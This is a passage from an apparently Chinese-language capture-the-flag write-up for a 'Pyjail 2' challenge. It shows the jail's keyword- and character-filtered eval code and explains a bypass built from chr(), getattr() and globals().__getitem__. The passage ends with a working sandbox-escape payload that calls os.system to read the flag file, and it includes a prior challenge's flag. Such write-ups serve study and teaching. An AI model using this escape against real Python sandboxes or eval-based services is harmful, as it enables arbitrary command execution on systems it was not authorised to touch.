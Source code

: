 ```
moectf{77553abb-2b7a-2c71-1870-4c41d9778a64}
```

## Pyjail 2

> flag 位置在 /tmp 下

```python
def chall():
    user_input = input("Give me your code: ")

    # 过滤关键字
    forbidden_keywords = ['import', 'eval', 'exec', 'open', 'file']
    for keyword in forbidden_keywords:
        if keyword in user_input:
            print(f"Forbidden keyword detected: {keyword}")
            return
    
    # 过滤特殊字符
    forbidden_chars = ['.', '_', '[', ']', "'", '"']
    for char in forbidden_chars:
        if char in user_input:
            print(f"Forbidden character detected: {char}")
            return

    result = eval(user_input)
```

**1. 使用`chr()`编码绕过字符过滤**

所有被禁止的字符（如`_`）和关键字都用`chr(ASCII码)`表示。

**2. 使用`getattr()`进行属性访问**

由于`.`被禁止，使用`getattr(object, attribute)`来访问属性。

**3. 使用`globals()`和`__getitem__()`访问字典**

由于`[]`被禁止，使用：`dict[key]` → `dict.__getitem__(key)` → `getattr(dict, '__getitem__')(key)`。

```
__import__('os').system('cat /tmp/flag.txt')

getattr(
    getattr(
        getattr(
            getattr(
                globals(),
                '__getitem__'
            )('__builtins__'),
            '__dict__',
            getattr(
                globals(),
                '__getitem__'
            )('__builtins__')
        ),
        '__getitem__'
    )('__import__')('os'),
    'system'
)('cat /tmp/flag.txt')

```